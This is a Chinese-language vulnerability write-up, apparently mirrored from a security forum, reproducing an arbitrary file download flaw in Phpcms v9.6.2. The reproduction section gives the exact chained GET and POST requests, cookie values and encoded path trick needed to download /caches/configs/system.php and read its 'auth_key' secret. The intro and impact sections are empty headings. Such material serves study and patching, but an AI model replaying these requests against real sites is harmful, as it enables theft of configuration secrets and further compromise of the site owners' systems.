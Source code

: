 # Phpcms v9.6.2 任意文件下载

> 原文：[https://www.zhihuifly.com/t/topic/3081](https://www.zhihuifly.com/t/topic/3081)

# Phpcms v9.6.2 任意文件下载

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

##### 第一步:进行如下请求获得YDVIB_siteid的值。

请求：

```
[GET]http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=wap&c=index&a=init&siteid=1 
```

获得：

```
[cookie]YDVIB_siteid:75d1XCnlbSh-1zi2xZ-gearAbSsmOcXypuSKXZst 
```

##### 第二步:在[POST DATA] 中的userid_flash参数的值设置为，第一步请求得到的YDVIB_siteid参数的值，并进行如下请求。

请求：

```
[GET] http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=attachment&c=attachments&a=swfupload_json&src=a%26i=1%26m=1%26catid=1%26f=./caches/configs/system.ph%253ep%2581%26modelid=1%26d=1&aid=1 `[POST DATA] userid_flash=75d1XCnlbSh-1zi2xZ-gearAbSsmOcXypuSKXZst` 
```

获得：

```
[cookie] YDVIB_att_json:ea6fUlmiupVPoK2udMAztI7dpqUURRW1plemEGmRhGPocAvwWbcMk3BARFHzxLI4NJrV1IJQ2PaHeec790iDdhRJ9dJbhEKamgM55SwKR-F3fFmmWDOVuHnyiWg9kyMzQ2l9D_cRPQmM7P9e7ZYrESNQwjMOytrFTIhY4SFmK2Vjc3GS3g 
```

##### 第三步:将GET请求中的a_k参数的值设置为第二步请求获得的YDVIB_att_json参数的值，并进行如下请求。

请求：

```
[get] http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=content&c=down&a=init&a_k=41f4VsAhLvN8-4L1ntgSsuga4BrvYA5zcDo2bjiYB7RI98Qzj5D5k8dqqBfo7cUNwF3TGhz1SH-vPs3lIIQJYwHeF_u2b3QVfD2HIO3Gay68TAtz2rqYhX8XIeznWrTtOI24418KZUoTEAfnY4kZNtIajW-bqHRV1djqmEc1hSAwkIYWA9CPrw 
```

获得：

```
http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=content&c=down&a=download&a_k=7e9d9SFk0jOteAemg-j7IVn6Ph1JFU9FEkyDo9xeasNJDPgZsOhusc39D4KiHzydJwt2B4iLuu-l9w03UV47obM9nsnjcJxi2jbawvqfZWcY9PeL3j0MgKxAvgXL4-dbf8gGG6_EJXIOA2p9Jkl9QcM 
```

##### 最后点击”点击下载”的按钮进行如下请求，便可以下载/caches/configs/system.php文件，得到里面的’auth_key’

```
http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=content&c=down&a=download&a_k=7e9d9SFk0jOteAemg-j7IVn6Ph1JFU9FEkyDo9xeasNJDPgZsOhusc39D4KiHzydJwt2B4iLuu-l9w03UV47obM9nsnjcJxi2jbawvqfZWcY9PeL3j0MgKxAvgXL4-dbf8gGG6_EJXIOA2p9Jkl9QcM 
```

![image](img/822b8f777cf8a81d8c5eb1835c179f20.png)

## 参考链接

> https://www.freebuf.com/column/158352.html